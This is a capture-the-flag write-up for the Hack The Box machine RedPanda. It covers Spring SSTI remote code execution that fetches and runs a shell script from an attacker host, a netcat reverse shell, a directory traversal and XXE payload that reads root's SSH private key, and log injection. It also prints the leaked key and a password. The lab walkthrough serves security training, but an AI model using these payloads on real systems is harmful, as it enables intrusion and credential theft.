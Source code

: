 ```yaml
---
layout: post
title: "HTB: RedPanda"
author: Andrew Cherney
date: 2023-04-20 21:26:28
tags: htb easy-box
icon: "assets/icons/redpanda.png"
post_description: "The name of the game for this box is trial and error. RedPanda the search engine for red panda pictures is vulnerable to SSTI. Post user there are two jar files being run which need to be investigated. After understanding how they work the user needs to change image metadata, abuse directory traversal, and use an XXE to get the root ssh key."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/RedPanda]
└──╼ $nmap -sC 10.10.11.170
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-20 21:41 CDT
Nmap scan report for 10.10.11.170
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Red Panda Search | Made with Spring Boot
```

<h2>Port 8080 - http</h2>

{% include img_link src="/img/redpanda/front_page" alt="front_page" ext="png" trunc=600 %}

Appears we have a search engine which will construct some sort of query to find red panda images based on a provided user input. When I look at the packet in burp suite the only information we pass to the site is a name parameter.

<h1>User as woodenk</h1>

<h2>SSTI</h2>

A bare bones name parameter is passed to the backend code. I'll start with a fuzz of a few things. First this [SSTI payload list](https://github.com/payloadbox/ssti-payloads). Two things happen when I fuzz the name parameter.

#1 There are banned characters such as $ and ~. #2 two payloads return a response which indicated this is vulnerable to SSTI. 

![SSTI test payload](/img/redpanda/SSTI_test_payload.png)

The reason this exploit works in this instance is the web server is using some version of a template engine. That template engine can be used to import local data or run specific code to help render and format pages. When improperly handled user input can reach the code that handles these templates it more often than not leads to RCE. 

Now here comes the complicated part of SSTI: crafting a payload. The two payloads that yielded results were **@(6+5)** **#{7\*7}**. I enumerate further and find that **(6+5)**, **^{7\*7}**, **\*{7\*7}** also work. Here is where I can look around [PayloadAllTheThings SSTI payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java---velocity) for frameworks and basic tests to find what this is running and further develop an exploit. 

After a little bit of manual enumeration I find that this is likely Java - Spring as the provided payload works to run commands. 

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

![SSTI successful test](/img/redpanda/SSTI_success.png)

I'll use a simple shell upload and then run the shell through this exploit.

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('wget http://10.10.14.2:8080/shell').getInputStream())}
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('bash shell').getInputStream())}
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/RedPanda]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.170] 38572
bash: cannot set terminal process group (878): Inappropriate ioctl for device
bash: no job control in this shell
woodenk@redpanda:/tmp/hsperfdata_woodenk$ cat ~/user.txt
cat ~/user.txt
94c2a417e6a574e------------------
```

Oh, I'm already woodenk. I suppose it makes sense that akin to Flask, Spring might not traditionally use www-data. 

<h1>Root</h1>

<h2>Following Groups</h2>

I notice that woodenk is a part of the logs group, and searching for files associated with that group I come across a root directory named **/credits**. Within this directory there are xml files with view totals for the images related to the site, and functionally is used to determine whose images are being viewed the most. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>0</views>
  </image>
```

This appears it could be vulnerable to an XML eXternal Entity, or an XXE. The file permissions here are only root can edit these xml files. I'd say there's a good chance that whatever process is updating this is run by root. I cannot edit anything file in this directory however. The location of the images is **/opt/panda_search/src/main/resources/static/img**. I have a hunch that if I look at the metadata they will have an author field set. 

Looking further I see that the panda search jar file is run as root, and is most likely the process controlling these files. I'll quickly download it and sift through what is up with the /credits directory. I spin up a python http server and wget the jar file. 

<h2>Debugging Java</h2>

To sift through these class files inside the jar I used IntelliJ IDEA, you could use VSCode if you install a Java decompiler, or Eclipse. I peruse over to the MainController class file. In here is the bones of what is happening in the Credits directory, and additionally contains woodenk's password for the mysql database and doubles as his machine password: **RedPandazRule**. That password is useless as logging into woodenk this way makes the session not a part of the logs group. 

That jar file contains the code for creating the creds.xml files and assigning the authors, but there is nothing in there to change the scores. 

I decide to use pspy64, a process sniffing tool, to find anything running as a cronjob or as root and hidden from **ps -aux** output. 

```bash
2023/04/23 17:28:01 CMD: UID=0     PID=20784  | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar
2023/04/23 17:28:01 CMD: UID=0     PID=20783  | /bin/sh /root/run_credits.sh 
```

That is exactly what I was looking for. There is one line of code in a class from this new jar which allows us to smuggle in an XXE: **String xmlPath = "/credits/" + artist + "_creds.xml";**. In this line we see that the defined artist of the image provided is passed unsanitized to create the creds.xml file for a particular artist. This is vulnerable to directory traversal, and hence vulnerable to XXE since I can direct it to the home directory where I can create the .xml file for it to update. 

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/root/.ssh/id_rsa"> ]>
<credits>
  <author>raccoon</author>
  <image>
    <uri>/../../../../../../../home/woodenk/raccoon.jpg</uri>
    <views>0</views>
    <foo>&xxe;</foo>
  </image>
</credits>
```

The final part of the puzzle here is the log file **/opt/panda_search/redpanda.log** which after a new line appears, it is read and then it reads the image artist and updates the views on the creds file. The file creates logs as such:

```
200||10.10.14.7||Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0||/search
200||10.10.14.7||Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0||/img/greg.jpg
```

I'll change the artist of an image, place it in the home directory, and then inject the log of the view of that image. If this works I should have root's ssh key. 

(Editors note, this needs to be done after gaining a shell through the search engine as woodenk is not a part of the logs group otherwise)

```bash
exiftool -Artist="../home/woodenk/raccoon" raccoon.jpg 
scp raccoon.jpg woodenk@10.10.11.170:.
```

```bash
woodenk@redpanda:~$ echo "200||10.10.14.7||Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0||/../../../../../../home/woodenk/raccoon.jpg" > /opt/panda_search/redpanda.log
woodenk@redpanda:~$ cat raccoon_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>raccoon</author>
  <image>
    <uri>/../../../../../../../home/woodenk/raccoon.jpg</uri>
    <views>0</views>
    <foo>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</foo>
  </image>
</credits>
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/RedPanda]
└──╼ $ssh root@10.10.11.170 -i root.key 
root@redpanda:~# cat root.txt
f77f9f36------------------------
```

